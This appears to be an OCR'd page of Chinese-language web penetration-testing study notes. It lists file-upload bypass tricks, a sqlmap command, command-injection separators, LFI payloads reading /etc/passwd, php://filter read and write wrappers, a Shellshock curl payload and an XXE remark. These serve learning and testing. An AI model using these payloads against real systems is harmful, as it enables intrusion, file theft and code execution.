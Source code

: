 1.绕过前端后缀名检测:	使用burp抓包并替换用户名

2.绕过后端后缀名检测:	IIS/Apache解析漏洞/%00截断

3.绕过文件MIME类型检测:	修改数据包并添加`Content-Type: image/png`

4.绕过文件头检测:	`GIF89a;`

---

### SQLI	sql注入漏洞

测试特殊字符:	`WEEK-2/magic_character.txt`

sqlmap:	`sqlmap --batch --random-agent -u <url>`

---

### 命令注入

使用`|`、`||`、`&&`等方式运行多个命令

---

### LFI 本地文件读取

参数传入文件名

绝对路径:`/etc/passwd`

相对路径:`../../../../../etc/passwd`

---

利用php封装器读取php文件源码

`php://filter/convert.base64-encode/resource=index.php`

利用php封装器写入文件

`php://filter/write=convert.base64-decode/resource=test.php&txt=<encoded_value>`

---

### ShellShock	破壳漏洞

1.寻找`/cgi-bin`下的文件`gobuster -u <url> -w /usr/share/seclists/Discovery/Web-Content/common.txt -x cgi,sh`

2.使用nmap脚本验证 `nmap --script http-shellshock --script-args uri=/cgi-bin/<file.cgi>,cmd=ls`

3.利用:`curl -H "User-Agent: () { :;}; echo; /bin/bash -c 'which nc'"`



---

### XXE xml外部实体注入

一般来说可以实现LFI,特殊情况可以实现RCE
